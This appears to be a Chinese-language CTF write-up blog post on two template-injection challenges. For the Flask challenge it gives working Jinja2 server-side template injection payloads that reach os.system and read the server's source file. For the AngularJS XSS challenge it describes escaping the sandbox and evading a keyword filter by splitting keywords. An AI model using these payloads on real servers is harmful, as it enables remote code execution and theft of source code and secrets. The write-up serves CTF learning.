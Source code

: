 ```yaml
---
id: 675
layout: post
title: 'sctf中的两道模板注入'
date: 2016-02-28 17:26:00
author: virusdefender
tags: 安全 CTF
---
```


FlagMan
-------

使用GitHub Oauth登录，然后页面上就可以显示你的GitHub头像、用户名、用户id。常见的思路都想过了，发现不行，后来看到登录页面有个隐藏的`Powered by Flask`，联想起最近的Jinjia2模板注入，应该是在GitHub的真实姓名的位置。

在 http://blog.knownsec.com/2016/02/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/ 有一个POC

{% raw %} 
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{ c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
{% endif %}
{% endfor %}
```
{% endraw %}

原理就是Jinjia2中可以访问空列表，然后`[].__class__.__base__`是`object`，`object`的`__subclasses__()`就是所有继承`object`的类，依次类推，找到了一个导入了os模块的，然后取出来使用。如果能找到其他模块中导入了os也行，但是没有再去找。


<!--more-->


但是发现网站是SAE的环境，不能执行命令，就决定读取一下代码看看，flag应该在里面。

为了简短代码，不用每次去去循环获取，就循环判断下索引

{% raw %} 
```python
{% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %} {{ loop.index0 }}{% endif %} {% endfor %}
```
{% endraw %}

得到索引是59

循环查看所有的模块 

{% raw %}
```python
{% for i in range(0, 10) %} {{ [].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.keys()[i] }} {% endfor %}
```
{% endraw %}

发现有`os`, `__file__`, `__builtins__`等，可以用open

但是要先知道当前文件名，所以

{% raw %}
```python
{{ [].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].path.realpath(__file__) }}
```
{% endraw %}

得到文件名`/data1/www/htdocs/259/4083475a59f34e34/2/ssctf.py`，然后读文件

{% raw %}
```python
{{ [].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['__builtins__'].open("/data1/www/htdocs/259/4083475a59f34e34/2/ssctf.py", "r").read() }}
```
{% endraw %}

其实上面读取文件也不需要全部的路径，直接使用`__file__`也行，一开始怕sae环境比较特殊。

这样就读了源代码，获取到了flag。

再看题目源码，发现模板内容写`{{ app.flag_man }}`就可以，虽然说和题目有点关系，flask中也经常使用app这个变量，但是一开始还是没想到。

![QQ20160229-1@2x.png][1]


xss
---

也是紧追潮流，是再早几天的AngularJS的模板注入。那时候看着英文版不错，还自己翻译了一部分，然后就发现360也出了翻译，还是基本能看的，就放弃了。。 文章在 http://bobao.360.cn/learning/detail/2597.html

第一步测试，发现将`<>`替换成了下划线，过滤了一些词，比如`eval`、`onxxx`等，直接使用关键词把关键词拆开就好了，比如`evevalal`，然后过滤后拼成了原来的关键词。

AngularJS模板注入的原理要比Jinjin2的复杂些，因为注入的代码并不能执行任意动作，因为AngularJS"沙箱"的存在，所以还是通过各种替换函数，将安全的函数替换成了危险函数来做的。其实对JS不是特别熟，文章也是看的一知半解的，不多说了。

![D6FEA12A-033D-4C03-BB15-B602192DC2FE.png][2]


  [1]: http://storage.virusdefender.net/blog/images/675/1.png
  [2]: http://storage.virusdefender.net/blog/images/675/2.png
